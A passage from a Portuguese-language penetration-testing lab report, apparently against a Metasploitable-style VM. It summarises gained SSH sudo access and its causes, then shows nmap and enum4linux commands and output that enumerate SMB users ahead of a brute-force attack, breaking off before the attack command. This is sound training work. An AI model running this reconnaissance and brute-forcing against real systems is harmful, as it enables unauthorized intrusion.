 **✅ Acesso SSH confirmado com privilégios de SUDO TOTAL!**

#### Impacto do Acesso

Com acesso SSH e sudo sem senha, um atacante pode:
- Executar qualquer comando como root
- Instalar backdoors
- Modificar arquivos de sistema
- Roubar dados sensíveis
- Usar o servidor como pivot para ataques laterais

#### Vulnerabilidades Exploradas

1. **Credenciais padrão não alteradas**
2. **Ausência de autenticação por chave pública**
3. **Sem Fail2Ban ou similar**
4. **Usuário com sudo NOPASSWD**
5. **Sem autenticação multifator (2FA)**

---

### 4.3. Ataque de Força Bruta em SMB

#### Reconhecimento Inicial

```bash
$ nmap -sV -p 445 192.168.56.102

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

✅ **Serviço SMB detectado na porta 445**

#### Enumeração de Usuários

Antes do ataque, enumerei os usuários válidos com `enum4linux`:

```bash
$ enum4linux -U 192.168.56.102

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\msfadmin (Local User)
S-1-22-1-1001 Unix User\user (Local User)
S-1-22-1-1002 Unix User\postgres (Local User)
S-1-22-1-1003 Unix User\service (Local User)
```

**Usuários descobertos:**
- msfadmin
- user
- postgres
- service

#### Comando de Ataque
